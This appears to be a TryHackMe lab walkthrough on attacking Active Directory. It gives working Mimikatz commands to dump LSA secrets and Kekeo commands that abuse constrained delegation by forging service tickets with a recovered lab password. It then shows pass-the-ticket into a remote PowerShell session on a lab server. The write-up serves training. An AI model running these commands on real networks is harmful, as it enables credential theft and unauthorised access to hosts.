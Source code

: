 Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use Mimikatz to dump the secrets:

```
mimikatz # token::elevate
mimikatz # lsadump::secrets
mimikatz # token::revert
```
- ``token::elevate`` - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
- `lsadump::secrets` - Mimikatz interacts with the registry hive to pull the clear text credentials.
Now lets perform a delegation attack with kekeo and mimikatz
We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:
```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```
- user - The user who has the constrained delegation permissions.
- domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
- password - The password associated with the svcIIS account. That we got from lsadump::secrets output

Now lets forge a TGS (Ticket Granting Server) for the account we want to impersonate.
We need to do this for both HTTP service and WSMAN
```
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
```

Back to mimikatz lets type:

```
mimikatz # privilege::debug
mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```
We can exit Mimikatz and run klist if you want to verify that the tickets were imported. Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

```
mimikatz # exit
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc
PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

## Exploiting Automated Relays
We could be in a position where we did not have access to a constrained delegation exploit. This is another excellent attack that can be performed to gain privileged access to hosts. 
